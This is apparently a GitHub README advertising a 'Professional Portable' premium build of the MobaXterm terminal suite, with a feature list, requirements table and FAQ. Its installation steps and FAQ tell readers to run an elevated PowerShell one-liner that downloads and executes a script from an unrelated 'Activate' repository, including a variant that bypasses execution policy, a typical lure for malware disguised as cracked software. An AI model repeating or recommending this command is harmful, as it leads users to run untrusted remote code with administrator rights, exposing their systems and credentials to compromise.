

<div align="center">


<br>


# MobaXterm Professional Portable Suite
**Professional portable · SSH & X11 · Multi-tab terminal**
<br>
**Professional portable · SSH & X11 · Multi-tab terminal**
<br>
Premium · Pro · Full build · Windows



**MobaXterm Professional — terminal for remote computing with SSH, X11, RDP, SFTP and embedded Unix tools in a portable Windows suite.**

</div>

---

> Professional Portable bundles unlimited sessions, macro scripts and SFTP browser — manage Linux servers, forward X11 apps and tunnel ports from a single USB-ready package.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🖥️ **Multi-protocol** — SSH, Telnet, RDP, VNC and SFTP in one window.
- 📂 **SFTP browser** — Drag-and-drop files alongside your shell.
- 🪟 **X11 server** — Run Linux GUI apps rendered on Windows.
- 📜 **Macro automation** — Record and replay login sequences.
- 💼 **Portable suite** — No admin install required for field work.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB minimum |
| **Disk** | 500 MB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 4 GB minimum, 500 MB free space.
</details>


TAGS
mobaxterm, ssh, terminal, remote-access, devops, networking, sysadmin, mobaxterm-professional-porta, mobaxterm-professional-porta-pc, system-utility, pc-maintenance, disk-management, optimization-tools, windows-tools, professional
